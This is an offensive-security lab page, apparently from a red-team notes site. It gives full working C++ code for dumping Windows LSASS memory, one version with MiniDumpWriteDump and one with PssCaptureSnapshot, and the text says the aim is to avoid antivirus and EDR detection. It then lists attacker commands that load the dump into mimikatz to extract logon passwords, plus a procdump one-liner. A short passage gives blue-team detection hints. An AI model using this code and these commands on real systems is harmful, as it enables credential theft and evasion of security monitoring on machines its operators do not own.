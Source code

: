 ```yaml
---
description: 'Evasion, Credential Dumping'
---
```


# Dumping LSASS without Mimikatz with MiniDumpWriteDump == Reduced Chances of Getting Flagged by AVs

This lab explores how one could write a simple `lsass` process dumper for extracting the passwords it contains later on with mimikatz. **Possibly** without getting detected by some AV vendors - if you have a way of testing this against some known EDR solutions, I would be interested to hear about your findings.

{% hint style="info" %}
The below code uses a number of known Windows API calls that could still be flagged by some antivirus agent or EDR solution.
{% endhint %}

## MiniDumpWriteDump Code

Below is a simple code that leverages `MiniDumpWriteDump` API call to dump lsass.exe process memory. Let's go ahead and compile this C++ code:

{% code title="dumper.cpp" %}
```cpp
#include "stdafx.h"
#include <windows.h>
#include <DbgHelp.h>
#include <iostream>
#include <TlHelp32.h>
using namespace std;

int main() {
	DWORD lsassPID = 0;
	HANDLE lsassHandle = NULL; 
	HANDLE outFile = CreateFile(L"lsass.dmp", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
	HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	PROCESSENTRY32 processEntry = {};
	processEntry.dwSize = sizeof(PROCESSENTRY32);
	LPCWSTR processName = L"";

	if (Process32First(snapshot, &processEntry)) {
		while (_wcsicmp(processName, L"lsass.exe") != 0) {
			Process32Next(snapshot, &processEntry);
			processName = processEntry.szExeFile;
			lsassPID = processEntry.th32ProcessID;
		}
		wcout << "[+] Got lsass.exe PID: " << lsassPID << endl;
	}
	
	lsassHandle = OpenProcess(PROCESS_ALL_ACCESS, 0, lsassPID);
	BOOL isDumped = MiniDumpWriteDump(lsassHandle, lsassPID, outFile, MiniDumpWithFullMemory, NULL, NULL, NULL);
	
	if (isDumped) {
		cout << "[+] lsass dumped successfully!" << endl;
	}
	
    return 0;
}
```
{% endcode %}

{% file src="../../.gitbook/assets/createminidump.exe" caption="CreateMiniDump.exe" %}

Do not forget to add `dbghelp.lib` as a dependency in the Linker &gt; Input settings for your C++ project if the compiler is giving you a hard time:

![](../../.gitbook/assets/screenshot-from-2019-03-23-17-01-44.png)

## Execution Demo

1. Execute CreateMiniDump.exe \(compiled file above\) or compile your own binary
2. Lsass.dmp gets dumped to the working directory
3. Take the lsass.dmp offline to your attacking machine
4. Open mimikatz and load in the dump file 
5. Dump passwords

{% code title="attacker" %}
```csharp
.\createminidump.exe
.\mimikatz.exe
sekurlsa::minidump c:\temp\lsass.dmp
sekurlsa::logonpasswords
```
{% endcode %}

![](../../.gitbook/assets/peek-2019-03-23-22-16.gif)

## Why it's worth it?

See how Windows Defender on Windows 10 is flagging up mimikatz immediately... but allows running CreateMiniDump.exe? Good for us - we get lsass.exe dumped to `lsass.dmp`:

![](../../.gitbook/assets/peek-2019-03-23-21-25.gif)

..which then can be read in mimikatz offline:

![](../../.gitbook/assets/screenshot-from-2019-03-23-21-26-41.png)

Of ourse, there is procdump that does the same thing and it does not get flagged by Windows defender, but it is always good to know there are alternatives you could turn to if you need to for whatever reason. 

## Observations

As mentioned earlier, the code above uses a native windows API call `MiniDumpWriteDump` to make a memory dump of a given process. If you are on the blue team and trying to write detections for these activities, you may consider looking for processes loading in `dbghelp.dll` module and calling `MiniDumpWriteDump` function:

![](../../.gitbook/assets/screenshot-from-2019-03-23-17-08-29.png)

## PssCaptureSnapshot

`PssCaptureSnapshot` is another Windows API that lets us dump LSASS using `MiniDumpWriteDump` that may help us sneak past some AVs/EDRs for now.

{% hint style="info" %}
The benefit of using `PssCaptureSnapshot` is that when `MiniDumpWriteDump` is called from your malware, it will not be reading lsass process memory directly and instead will do so from the process's snapshot.
{% endhint %}

Below is the modified dumper code that uses the `PssCaptureSnapshot` to obtain a snapshot of the LSASS process. The handle that is returned by the `PssCaptureSnapshot` is then used in the `MiniDumpWriteDump` call instead of the LSASS process handle. This is done via the minidump callback:

```cpp
#include "stdafx.h"
#include <windows.h>
#include <DbgHelp.h>
#include <iostream>
#include <TlHelp32.h>
#include <processsnapshot.h>
#pragma comment (lib, "Dbghelp.lib")

using namespace std;

BOOL CALLBACK MyMiniDumpWriteDumpCallback(
	__in     PVOID CallbackParam,
	__in     const PMINIDUMP_CALLBACK_INPUT CallbackInput,
	__inout  PMINIDUMP_CALLBACK_OUTPUT CallbackOutput
)
{
	switch (CallbackInput->CallbackType)
	{
	case 16: // IsProcessSnapshotCallback
		CallbackOutput->Status = S_FALSE;
		break;
	}
	return TRUE;
}

int main() {
	DWORD lsassPID = 0;
	HANDLE lsassHandle = NULL;
	HANDLE outFile = CreateFile(L"c:\\temp\\lsass.dmp", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
	HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	PROCESSENTRY32 processEntry = {};
	processEntry.dwSize = sizeof(PROCESSENTRY32);
	LPCWSTR processName = L"";

	if (Process32First(snapshot, &processEntry)) {
		while (_wcsicmp(processName, L"lsass.exe") != 0) {
			Process32Next(snapshot, &processEntry);
			processName = processEntry.szExeFile;
			lsassPID = processEntry.th32ProcessID;
		}
		wcout << "[+] Got lsass.exe PID: " << lsassPID << endl;
	}

	lsassHandle = OpenProcess(PROCESS_ALL_ACCESS, 0, lsassPID);

	HANDLE snapshotHandle = NULL;
	DWORD flags = (DWORD)PSS_CAPTURE_VA_CLONE | PSS_CAPTURE_HANDLES | PSS_CAPTURE_HANDLE_NAME_INFORMATION | PSS_CAPTURE_HANDLE_BASIC_INFORMATION | PSS_CAPTURE_HANDLE_TYPE_SPECIFIC_INFORMATION | PSS_CAPTURE_HANDLE_TRACE | PSS_CAPTURE_THREADS | PSS_CAPTURE_THREAD_CONTEXT | PSS_CAPTURE_THREAD_CONTEXT_EXTENDED | PSS_CREATE_BREAKAWAY | PSS_CREATE_BREAKAWAY_OPTIONAL | PSS_CREATE_USE_VM_ALLOCATIONS | PSS_CREATE_RELEASE_SECTION;
	MINIDUMP_CALLBACK_INFORMATION CallbackInfo;
	ZeroMemory(&CallbackInfo, sizeof(MINIDUMP_CALLBACK_INFORMATION));
	CallbackInfo.CallbackRoutine = &MyMiniDumpWriteDumpCallback;
	CallbackInfo.CallbackParam = NULL;

	PssCaptureSnapshot(lsassHandle, (PSS_CAPTURE_FLAGS)flags, CONTEXT_ALL, (HPSS*)&snapshotHandle);

	BOOL isDumped = MiniDumpWriteDump(snapshotHandle, lsassPID, outFile, MiniDumpWithFullMemory, NULL, NULL, &CallbackInfo);

	if (isDumped) {
		cout << "[+] lsass dumped successfully!" << endl;
	}

	PssFreeSnapshot(GetCurrentProcess(), (HPSS)snapshotHandle);
	return 0;
}
```

![](../../.gitbook/assets/capture-snapshot-lsass.gif)

Note that this is the way `procdump.exe` works when `-r` flag is specified: 

![procdump help](../../.gitbook/assets/image%20%28332%29.png)

To confirm, if we execute procdump like so:

```text
procdump -accepteula -r -ma lsass.exe lsass.dmp
```

...and inspect the APIs that are being called under the hood, we will see that `procdump` is indeed dynamically resolving the `PssCaptureSnapshot` address inside the `kernel32.dll`:

![](../../.gitbook/assets/image%20%28485%29.png)

## References

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/api/minidumpapiset/nf-minidumpapiset-minidumpwritedump" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/api/tlhelp32/nf-tlhelp32-createtoolhelp32snapshot" %}

{% embed url="https://docs.microsoft.com/en-us/previous-versions/windows/desktop/proc\_snap/export-a-process-snapshot-to-a-file" %}

{% embed url="https://docs.microsoft.com/en-us/windows/win32/api/processsnapshot/nf-processsnapshot-psscapturesnapshot" %}

